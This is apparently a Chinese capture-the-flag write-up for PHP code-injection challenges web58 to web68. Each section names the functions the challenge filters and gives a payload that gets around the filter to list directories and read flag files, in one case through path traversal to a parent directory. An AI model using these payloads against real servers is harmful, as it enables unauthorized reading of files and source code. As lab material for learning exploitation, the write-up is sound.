 ## web58

从这里开始，有的函数被ban了不能使用，比如这道题执行命令的所有函数都是不能用的。
查看路径：

    print_r(scandir(dirname(__file__)));

查看flag:

    print_r(file('flag.php'));

## web59

同上题

## web60

过滤了file函数，所以没办法像刚刚那样读。
学了个新姿势，多写几行php就行

    c=$a=fopen('flag.php','r');while(!feof($a)){$line=fgetc($a);print_r($line);}

## web61-65

fgetc过滤了。
扫描目录：

    c=$a=opendir('./');while(($file=readdir($a))!=false){print_r($file."、");}

扫出来之后查看flag，这里show_source和highlight_file都没有过滤：

    show_source('flag.php');
    highlight_file('flag.php');

## web66

和上面一样做法的时候，发现flag并不在flag.php里面。
所以用上面的方法扫了目录。发现根目录下面有个flag.txt。
然后：

    c=highlight_file('../../../flag.txt');

得到flag.

## web67

和上面的区别是过滤了print_r
换成echo之后做法一样

## web68

highlight_file()方法被禁用了。
换成include/require/require_once,没有什么变化
